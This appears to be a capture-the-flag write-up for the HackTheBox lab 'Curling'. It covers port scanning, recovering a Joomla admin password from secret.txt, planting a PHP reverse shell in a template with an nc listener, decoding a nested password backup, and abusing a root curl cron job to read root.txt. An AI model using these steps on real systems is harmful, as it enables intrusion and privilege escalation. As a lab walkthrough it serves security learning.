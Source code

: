 # Curling

**Date:** 2024-10-04

## Target Setup
I start by saving the target IP address in a file for easier access throughout the session:

```bash
echo 10.10.10.150 > target
```

I also add the domain name `curling.htb` to my `/etc/hosts` file:

```bash
echo "10.10.10.150 curling.htb" >> /etc/hosts
```

---

## Service Enumeration

### Full Port Scan
To identify open ports, I perform a full port scan using `nmap`:

```bash
nmap -p- -v -oN nmap/full_scan -T4 10.10.10.150
```

This reveals two open ports:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Targeted Service Scan
I follow up with a more detailed scan of the identified ports:

```bash
nmap -p22,80 -sV -sC -O -v -oN nmap/target_ports.txt -oX nmap/target_ports.xml 10.10.10.150
```

The scan provides the following output:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 (Ubuntu)
|_http-title: Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
```

### Observations
- **SSH (port 22)**: OpenSSH 7.6p1 running on Ubuntu.
- **HTTP (port 80)**: Apache 2.4.29 hosting a Joomla-based website.

---

## Website Analysis (Port 80)

### Initial Inspection
On the homepage, I notice a potential username, `Floris`, which could be helpful later. The site also mentions a date: **2018**, likely the year of setup.

### Joomla Version Identification
I find the Joomla version by extracting its configuration file:

```bash
curl http://curling.htb/administrator/manifests/files/joomla.xml | grep "<version>"
```

Output:

```xml
<version>3.8.8</version>
```

This Joomla version (3.8.8) could be vulnerable to XSS. A quick search on `searchsploit` reveals the following exploit:

```bash
searchsploit Joomla 3.8.8
```

Result:

```
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting
```

### Secret Discovery
Inspecting the source code of the homepage (`view-source:http://curling.htb`), I find an interesting comment:

```html
<!-- secret.txt -->
```

Navigating to `http://curling.htb/secret.txt`, I find a base64-encoded string:

```
Q3VybGluZzIwMTgh
```

Decoding it:

```bash
echo "Q3VybGluZzIwMTgh" | base64 -d
```

Result:

```
Curling2018!
```

This is likely a password for the `Floris` user. I use it to log in to the Joomla admin panel (`http://curling.htb/administrator`).

---

## Exploiting Joomla for Initial Access

After gaining access to the Joomla admin panel, I refer to [HackTricks - Joomla RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce) for exploiting the system via template modification:

1. Navigate to `Templates` → `Protostar`.
2. Edit a template file like `error.php`, replacing its content with a PHP reverse shell:

```bash
cat /usr/share/webshells/php/php-reverse-shell.php
```

3. Start a listener on your local machine:

```bash
nc -lvnp 1234
```

4. Trigger the shell:

```bash
curl -s "http://curling.htb/templates/protostar/error.php"
```

I successfully get a reverse shell as `www-data`. 

To improve my shell, I spawn a TTY shell:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

---

## Privilege Escalation to User

### Floris' Home Directory
In the `floris` user's home directory, I find a `password_backup` file. It appears to be a compressed file:

```bash
file password_backup
```

Result:

```
password_backup: ASCII text
```

By analyzing the first few bytes (`BZh`), I identify it as a **bz2** file.

### Decompressing the Backup
I decompress the file step by step:

```bash
xxd -r password_backup > password_backup.bz2
bzip2 -d password_backup.bz2
mv password_backup password_backup.gz
gunzip password_backup.gz
mv password_backup password_backup.bz2
bzip2 -d password_backup.bz2
mv password_backup password_backup.tar
```

Finally, I extract the contents:

```bash
tar -xf password_backup
```

Inside, I find Floris' password: `5d<wdCbdZu)|hChXll`.

I use this to SSH into the machine as `floris` and retrieve the user flag.

---

## Privilege Escalation to Root

In Floris' home directory, I find an `admin-area` folder containing two files: `input` and `report`. After analyzing running processes with `pspy64`, I observe a cron job running `curl` with these files.

### Exploiting the Cron Job
I modify the `input` file to point to the root flag:

```bash
echo "url = \"file://root/root.txt\"" > input
```

I quickly read the `report` file to capture the root flag:

```bash
cat report
```

---

## Conclusion
By leveraging Joomla vulnerabilities and analyzing cron job behaviors, I successfully escalate privileges to root and capture all flags. The detailed enumeration and understanding of file signatures played a crucial role in both user and root access.

---

## Resources

* [HackTricks - Joomla](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)
* [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
* [pspy - unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy)

---
